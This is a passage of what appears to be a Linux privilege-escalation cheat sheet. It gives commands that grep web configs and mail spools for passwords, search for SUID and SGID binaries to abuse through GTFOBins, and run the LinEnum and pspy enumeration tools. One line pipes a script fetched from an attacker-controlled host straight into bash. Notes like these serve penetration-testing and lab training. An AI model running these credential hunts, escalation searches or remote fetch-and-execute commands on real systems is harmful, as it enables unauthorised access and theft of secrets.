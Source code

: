 ```
cat /var/www/html/config.php | grep password
```

#### In mail

```
cat /var/spool/mail | grep $item
```

Or using LinEnum.sh

```
LinEnum.sh -t -k password
```

#### Chekcing the service ti's running

```
netstat -anlp
```

### GTFOBins

SUID

```
find / -perm -u=s -type f 2>/dev/null
```

GUID

```
find / -perm -g=s -type f 2>/dev/null
```

### Authomation Tools

There are three useful automation tools that I use the most, which are

#### LinEnum.sh

[https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)

```
curl http://$attackerip/LinEnum.sh | /bin/bash
chmod +x LinEnum.sh
./LinEnum.sh
```

#### pspy

pspy is a command line tool designed to snoop on processes without need for root permissions.

```
Cron job watching with pspy
~/pspy (master) $ make example
```
